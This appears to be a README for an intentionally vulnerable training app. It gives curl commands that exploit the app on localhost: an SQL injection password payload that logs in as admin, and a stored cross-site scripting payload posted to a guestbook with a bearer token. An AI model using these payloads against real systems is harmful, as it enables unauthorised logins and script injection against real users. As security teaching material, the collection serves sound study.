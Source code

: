 A collection of curl commands you can use to exploit the vulnerabilities in the application.

## SQL injection

```bash
# Log in as any user
curl -X POST "http://localhost:8080/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"admin\", \"password\": \"' OR username='admin\"}" \
  -v && echo ""
```

## Cross-site scripting

```bash
# Execute a script when the guestbook page is loaded
curl -X POST "http://localhost:8080/api/messages" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpZCI6MTcsImFkbWluIjowLCJpYXQiOjE2OTE4NjgyMTh9.n751IHB0IeGFF2TH6qSsRO9yxLp2vNwSf4PLsrXPi0M" \
  -H "Content-Type: application/json" \
  -d "{\"message\": \"<img onLoad=(alert('pwned')) src=\\\"./favicon.ico\\\" />\"}" \
  -v && echo ""
```
